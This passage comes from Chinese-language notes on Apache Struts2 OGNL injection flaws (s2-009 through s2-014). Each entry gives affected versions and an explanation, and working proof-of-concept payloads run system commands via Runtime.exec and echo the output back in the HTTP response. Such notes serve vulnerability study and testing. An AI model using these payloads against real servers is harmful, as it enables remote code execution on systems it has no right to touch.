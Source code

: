 [参考](https://www.jianshu.com/p/68bf5ca2d61f)

影响版本：2.1.0 - 2.3.1.1

在 s2-005 的修复中过滤了 `\` 等特殊字符，然而对于接受某个参数 `example` 的接口来说，`example` 参数的值依然会被当作 OGNL 表达式执行。然后就可以通过类似 `example=<OGNL statement>&(example)('bla')=1` 来绕过过滤。

```java
age=4923&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23writer.println(%23d),%23writer.close())(bla)&z[(name)(%27bla%27)]
```

## s2-012

[参考](https://www.jianshu.com/p/cde51192616e)

影响版本：2.1.0 - 2.3.13

在 action 配置中的 `result` 中使用 `redirect` 类型时，如果使用了变量，如 `${param}`，那么在重定向时会对 `param` 进行 OGNL 表达式解析。

可以直接使用 s2-001 的 PoC。

## s2-013 | s2-014

[参考](https://xz.aliyun.com/t/2694)

影响版本：2.0.0 - 2.3.14.1

struts2 的 `<s:a>` 和 `<s:url>` 都有一个 `includeParams` 属性，可以设置为：

1. `none` - URL 中不包含任何参数（默认）
2. `get` - 仅包含 URL 中的 GET 参数
3. `all` - 在 URL 中包含 GET 和 POST 参数，此时 GET 和 POST 参数都在 query string 中

最后一种情况下解析参数时，会导致 OGNL 表达式执行，造成代码执行。

存在两种 PoC：

```java
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}
```

```java
${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

s2-013 的修复仅仅限制了 `${(#exp)}` 格式的 PoC 执行，然而 `${exp}` 格式同样可以执行。这导致了 s2-014 的产生。

> 上面的 `$` 都可以换成 `%`。

## s2-015
